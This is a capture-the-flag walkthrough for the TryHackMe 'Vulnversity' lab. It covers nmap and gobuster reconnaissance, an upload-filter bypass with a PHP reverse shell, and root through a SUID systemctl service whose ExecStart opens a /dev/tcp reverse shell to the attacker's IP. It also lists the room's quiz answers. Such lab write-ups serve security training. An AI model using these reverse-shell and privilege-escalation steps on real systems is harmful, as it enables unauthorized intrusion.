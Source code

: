 # VulnUniversity

- [Tools](#tools)
- [Deploy the machine](#deploy-the-machine)
- [Reconnaissance](#reconnaissance)
- [Locating directories using Gobuster](#locating-directories-using-gobuster)
- [Privilege Escalation](#privilege-escalation)

Room Link: [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

## Tools 

- [NMap](https://nmap.org/download) 
- [Gobuster](https://github.com/OJ/gobuster) 
- [Burp Intruder](https://portswigger.net/burp) 
- [Burp Proxy Toggle Extension](https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/)

## Deploy the machine 

- Deploy The Machine by clicking Start The Machine
- Download ovpn file and connect to the network using command `sudo openvpn --config username.ovpn`.

## Reconnaissance

- Scan ports of the machine with given command `nmap -sV 10.10.65.81`
Output of the command:
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-26 09:55 IST
Nmap scan report for 10.10.135.130
Host is up (0.20s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.77 seconds
```
- Question `how many ports are open?` Answer `6`
- Question `What version of the squid proxy is running on the machine?` Answer `3.5.12`
- Question `How many ports will Nmap scan if the flag -p-400 was used?` Answer `400`
- Question `What is the most likely operating system this machine is running?` Answer `Ubuntu`
- Question `What port is the web server running on?` Answer `3333`
- Question `What is the flag for enabling verbose mode using Nmap?` Answer `-v`

## Locating directories using Gobuster 

   
- Port 3333 is http server, So web interface looks like that http://10.10.65.81:3333
- We can run directory busting tool gobuster as per given command with our own wordlist `gobuster dir -u http://10.10.65.81:3333 -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`
Output of the command: 
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.65.81:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.65.81:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.65.81:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.65.81:3333/js/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.65.81:3333/fonts/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.65.81:3333/internal/]
Progress: 9932 / 1273834 (0.78%)
```
- Question `What is the directory that has an upload form page?` Answer `/internal/`

## Compromise the Webserver 

- Question `What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.` Answer `.php`
- Run burpsuite as per instruction and user intruder. Use firefox extension, https://addons.mozilla.org/en-US/firefox/addon/burp-proxy-toggler-lite/
- Question `Run this attack, what extension is allowed?` Answer `.phtml`
- Now we need to make our shell with given instruction using https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. Just replace ip to our netcat listening ip (tun0) and file extension to `.phtml`. Use `nc -lvnp 1234` to get shell.
- Now just upload the file and open http://10.10.65.81:3333/internal/uploads/ and click on the shell to get reverse shell.
- Question `What is the name of the user who manages the webserver?` Answer `bill`. Use `ls /home` command to get username.
- Question `What is the user flag?` Answer `********************************` (32 alphanumeric characters). Command used `cat /home/bill/user.txt`

## Privilege Escalation 

- To check suid permission files, we can use `find / -perm /4000 2> /dev/null`.
- Question `On the system, search for all SUID files. Which file stands out?` Answer `/bin/systemctl` Because systemctl don't have suid permission normally.
- Now we can start rooting the server.
- At first I created a file on my machine named ZishanAdThander.service (with my ip, you can user your ip)
```bash
[Unit]
Description=ZishanAdThandar

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.17.102.105/1337 0>&1'

[Install]
WantedBy=multi-user.target
```
- Now started web server on my machine using `python3 -m http.server 7860`
- On the reverse shell, moved to `/tmp` directory using `cd /tmp` command. Then uploaded the file with `wget http://10.17.102.105:7860/ZishanAdThandar.service` command.
- Now we can add the service using `/bin/systemctl enable /tmp/ZishanAdThandar.service` command on reverse shell.
- Started netcat listner on the given port with `nc -lvnp 1337`.
- Now we need can run the command `/bin/systemctl start ZishanAdThandar` to start the service and immediately we will get reverse shell as root on another netcat listner.
- Question `Become root and get the last flag (/root/root.txt)` Answer `********************************` (32 alphanumeric characters). Command used `cat /root/root.txt`

    
Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)





